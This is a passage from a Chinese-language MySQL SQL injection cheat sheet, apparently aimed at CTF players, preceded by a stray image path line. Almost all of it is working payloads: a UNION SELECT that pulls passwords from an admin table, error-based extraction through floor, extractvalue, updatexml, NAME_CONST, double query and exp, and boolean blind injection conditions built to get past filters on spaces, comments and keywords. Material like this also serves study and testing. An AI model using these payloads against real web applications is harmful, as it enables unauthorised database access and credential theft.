 ```
UNION SELECT 1,password,3 from admin
```

## 1.3 报错注入

mysql暴错注入方法整理，通过floor，UpdateXml，ExtractValue，NAME_CONST，Error based Double Query Injection等方法

### 1.3.1 floor

```
?id=1 OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

### 1.3.2 ExtractValue(有长度限制,最长32位)

```
?id=1 and extractvalue(1, concat(0x7e, (select @@version),0x7e))
```

### 1.3.3 UpdateXml(有长度限制,最长32位)

```
?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

### 1.3.4 NAME_CONST(适用于低版本，不太好用)

```
?id=261 and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)
```

### 1.3.5 Error based Double Query Injection

```
?id=1 or 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1
```

### 1.3.6 exp(5.5.5以上)

```
id=1 and (select exp(~(select * from(select user())x)))
```

## 1.4 BOOL盲注

盲注的时候一定注意，MySQL4之后大小写不敏感，可使用binary()函数使大小写敏感。

### 1.4.1 构造布尔条件

现在很多CTF比赛脑洞都出在了bool条件的构造，花式bool条件构造。

```sql
//正常情况
'or bool#
true'and bool#
    
//不使用空格、注释
'or(bool)='1
true'and(bool)='1
    
//不使用or、and、注释
'^!(bool)='1
'=(bool)='
'||(bool)='1
true'%26%26(bool)='1
'=if((bool),1,0)='0
```